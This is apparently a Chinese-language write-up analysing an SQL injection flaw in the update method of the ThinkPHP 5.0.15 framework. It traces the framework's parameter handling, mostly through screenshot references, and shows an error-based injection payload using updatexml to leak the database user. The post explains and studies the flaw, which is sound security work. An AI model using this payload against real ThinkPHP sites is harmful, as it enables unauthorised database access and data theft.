# ThinkPHP5.0.15Update注入分析

首先我们来看看正常的语句，先给出控制器的代码

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $level = input("level/a");
        $data = db("users")->where("id","1")->update(["level"=>$level]);
        dump($data);
    }
}
```

给出payload`&level[0]=inc&level[1]=level&level[2]=2`

之后执行的sql语句是

```mysql
UPDATE `users` SET `level`=`level`+2 WHERE `id` = '1' 
```

我们来跟踪一下具体的细节db方法就不跟了，我们跟进`parseWhereExp`发现只是参数的绑定这不重要



接下来跟进`update`，我们跟进发现parseExpress也只是参数绑定


接下来我们跟进



对参数并没有进行过滤，也是我们之后会用到的重点



在对参数进行拼接以后，这是我们返回的SQL语句



如果我们传入的参数为

```
level[0]=inc&level[1]=updatexml(1,concat(0x7e,(select%20user()),0x7e),1)&level[2]=2
```

会怎么样，我们继续跟踪，直接快进到关键部分，首先看看parseData是否对我们的数据做了处理



foreach循环，看看val的值



接着我们跟进`parseKey`，只是对key做了加反引号处理，对option参数没有任何处理

我们继续跟进



发现没做处理，因为parseKey主要是对sql当中的key加反引号而已





之后返回，经过foreach循环



实现替换



最终看看我们返回的参数，因而得以成功实现报错注入

